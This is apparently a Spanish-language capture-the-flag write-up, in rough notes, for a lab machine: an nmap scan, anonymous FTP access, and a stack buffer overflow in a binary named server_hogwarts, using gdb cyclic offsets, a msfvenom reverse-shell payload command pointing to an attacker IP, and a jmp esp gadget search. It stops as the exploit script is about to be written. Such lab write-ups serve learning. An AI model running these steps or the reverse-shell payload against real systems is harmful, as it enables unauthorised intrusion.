 [[192.168.100.7(Nagini)]]

Haremos un [[NMAP]]
`nmap -sT -Pn -p- --open -T5 -v -n 192.168.100.5`

```python
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
2222/tcp open  EtherNetIP-1
9898/tcp open  monkeycom
```

Vemos que el puerto del FTP esta activado así que vamos a probar a conectarnos, vemos que se puede acceder como usuarios `anonymous`

Vemos un binario llamado `server_hogwarts` así que con strace vamos a ver que es lo que hace y en que consiste: `strace ./server_hogwarts`, vemos que lo que realiza es montar un servidor por el puerto `9898`

Si ejecutamos el binario podremos acceder a el con netcat usando `nc localhost 9898` que es el puerto que estaba abierto durante el nmap.
El binario pide un input así que si no se ha definido bien un tamaño de buffer sin sanitizarlo se podría acontecer un bufferoverflow

Para poder realizar esto nos ejecutaremos el programa con la herramienta de gdb: `gdb ./server_hpgwarts -q` y para correr la herramienta usaremos la r una vez dentro de gdb.

Y en la otra terminal nos conectamos con netcat e introducimos todas las "A" posibles, y llenaremos el EIP de "A" o en hexadecimal 4141414141.

Si ejecutamos checsec nos mostrara si NX esta desactivado que nos permitirá hacer que un flujo de la pila se interprete cómo shellcode

En gdb haremos `cyclic 1024` para que nos cree un patrón de letras para identificar donde se llena el EIP
Una vez se llena el EIP copiamos el valor hexadecimal y ejecutamos `cyclic -o 0x62616164` y te dice en que bite esta el offset

Ahora para apuntar al EIP directamente usaremos el siguiente comando de python para llenar el EIP y verificar que se llena de "B" `python3 -c 'print("A"*112 + "B"*4 +"C"*100)'` y al llenarlo nuestro ESP apunta al comienzo de las letra "C" 

Ahora tenemos que hacer que EIP apunte directamente al ESP para que una vez salte a este se ejecute un shellcode

Necesitaremos realizar un shellcode que haremos con msfvenom:
`msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.1.21 LPORT=443 -b '\x00\x0a\x0d' -f py -v shellcode`

Usaremos objdump para encontrar el OpCode que hace el salto al ESP
Para saber a donde se corresponde el OpCode usaremos `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` e introducimos `jmp ESP` nos dice que el OpCode corresponde a `FFE4`

Ahora objdum ejecutamos:
`objdump -D server_hogwarts| grep "ff e4"`

Nos mostrara direcciones que realizan ese salto que buscabamos en este caso: ``
`8049d55`


Vamos a realizar un `exploit.py` para realizar esto:






